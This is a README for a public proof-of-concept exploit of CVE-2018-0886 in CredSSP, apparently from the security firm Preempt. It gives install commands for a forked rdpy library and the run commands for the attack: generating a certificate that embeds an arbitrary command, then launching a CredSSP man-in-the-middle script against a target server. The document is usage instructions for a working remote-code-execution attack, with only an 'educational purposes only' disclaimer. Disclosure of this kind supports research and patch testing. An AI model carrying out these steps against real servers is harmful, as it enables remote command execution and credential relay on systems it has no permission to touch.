 # credssp

This is a poc code for exploiting CVE-2018-0886. It should be used for educational purposes only.
It relies on a fork of the rdpy project(https://github.com/preempt/rdpy), allowing also credssp relay. 


Written by Eyal Karni, Preempt 
ekarni@preempt.com 

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file.. 
It was tested on Ubuntu 16.04. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git 
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```

EDB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/44453.zip

* It assumes a pretty clean inital state. Best to uninstall first relevant compontants such as cryptography,pyopenssl maybe (pip uninstall cryptography).  
* A different version of openssl needed to be installed for this to run successfully.  The install script does that. 
* Please follow the instructions in the described order. 

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain.


To generate a suitable certificate for the command to execute : 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -o exploitc.pem -k exploitk.pem CMD 
```

(exploitc.pem ,exploitk.pem are the generated certificate and private key respectively)

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```

More details are in the usage section of the scripts(--help).